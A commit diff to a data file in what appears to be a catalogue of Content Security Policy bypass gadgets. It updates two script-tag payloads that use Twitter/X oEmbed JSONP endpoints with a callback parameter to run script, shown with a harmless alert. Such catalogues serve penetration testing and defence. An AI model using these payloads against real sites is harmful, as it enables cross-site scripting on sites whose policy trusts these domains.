

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
pushed fix for twitter/x domains

```diff
--- a/data.tsv
+++ b/data.tsv
-B31: <script src="https://api.twitter.com/1/statuses/oembed.json?url=https:%2F%2Ftwitter.com%2FMartina%2Fstatus%2F867710263654580226&callback=alert&_=1496363308445"></script>
+B31: <script src="https://api.twitter.com/1/statuses/oembed.json?url=https://x.com/jack/status/20&callback=alert"></script>
-B36: <script src="https://api.x.com/1/statuses/oembed.json?url=https:%2F%2Ftwitter.com%2FMartina%2Fstatus%2F867710263654580226&callback=alert&_=1496363308445"></script>
+B36: <script src="https://api.x.com/1/statuses/oembed.json?url=https://x.com/jack/status/20&callback=alert"></script>
```
